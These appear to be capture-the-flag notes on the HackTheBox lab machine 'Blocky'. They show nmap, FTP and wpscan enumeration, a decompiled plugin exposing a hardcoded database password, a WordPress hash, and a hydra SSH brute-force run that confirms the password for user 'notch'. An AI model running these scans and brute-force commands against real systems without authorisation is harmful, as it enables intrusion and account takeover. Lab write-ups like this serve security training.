





PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


## FTP

No anon login
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:kali): anonymous
331 Password required for anonymous
Password:
530 Login incorrect.
Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
530 Please login with USER and PASS
ftp: bind: Address already in use
ftp> dir
530 Please login with USER and PASS
ftp> 
221 Goodbye.


## HTTP



 wpscan --url http://10.10.10.37 --detection-mode aggressive --plugins-detection aggressive -f cli


[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)





 sudo apt install jd-gui


```java
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  public String sqlUser = "root";
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";


  
  public void onServerStart() {}


  
  public void onServerStop() {}


  
  public void onPlayerJoin() { sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!"); }
  
  public void sendMessage(String username, String message) {}
}
```




Notch:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/





hydra -t 1 -v -I -L users.txt -P passwords.txt ssh://10.10.10.37
[22][ssh] host: 10.10.10.37   login: notch   password: 8YsqfCTnvxAUeduzjNSXe22


